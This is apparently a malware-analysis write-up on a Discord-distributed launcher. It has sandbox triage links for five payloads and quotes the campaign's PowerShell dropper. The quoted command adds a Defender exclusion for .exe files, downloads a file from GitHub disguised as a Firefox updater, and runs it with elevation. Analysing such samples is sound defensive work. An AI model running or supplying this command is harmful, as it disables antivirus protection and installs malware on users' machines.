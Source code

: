 [https://discordservers.com/server/135413481619456414](https://discordservers.com/server/1354134816194564147)

### ❌ Fake user:

![Fake Discord User](https://file+.vscode-resource.vscode-cdn.net/c%3A/Users/direx/images/image-2.png)

### ✅ Real user:

![Real Discord User](https://file+.vscode-resource.vscode-cdn.net/c%3A/Users/direx/images/image-3.png)

---

## 📦 2. Payload Chain

The PowerShell script downloads 5 payloads from GitHub.

## 🧪 Triage

Initial sample – **Launcher.exe from Discord**  
[Sandbox Link](https://tria.ge/250401-jxxhrsyly6/behavioral1)

### Payloads:

- Payload 1: [https://tria.ge/250401-l4tfsszkz9/behavioral1](https://tria.ge/250401-l4tfsszkz9/behavioral1)
- Payload 2: [https://tria.ge/250401-l8p9yaxvc1/behavioral1](https://tria.ge/250401-l8p9yaxvc1/behavioral1)
- Payload 3: [https://tria.ge/250401-l8yajszlt6/behavioral1](https://tria.ge/250401-l8yajszlt6/behavioral1)
- Payload 4: [https://tria.ge/250401-l7htgazls9/behavioral1](https://tria.ge/250401-l7htgazls9/behavioral1)
- Payload 5: [https://tria.ge/250401-l5p5rsxvbz/behavioral1](https://tria.ge/250401-l5p5rsxvbz/behavioral1)

Grabbed from:  
[https://idefasoft.com/pastes/yUmTjqdnCjrD/raw/](https://idefasoft.com/pastes/yUmTjqdnCjrD/raw/)

> ⚠️⚠️ WARNING: This PowerShell is **malicious**. Do not run it. ⚠️⚠️  
> For **educational purposes only** – shown here as part of analysis.

```powershell
Set-MpPreference -ExclusionExtension *.exe
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Lapresse-Hugo/MalwareDatabase/refs/heads/master/Unknown/1.zip" -OutFile "$Env:LocalAppData\Updates\firefox_updater.exe"; Start-Process -Verb RunAs -Filepath "$Env:LocalAppData\Updates\firefox_updater.exe"
```

---

Despite `.zip` extension, all are PyInstaller-packed `.exe` files.

### Payload Analysis (via Detect It Easy):

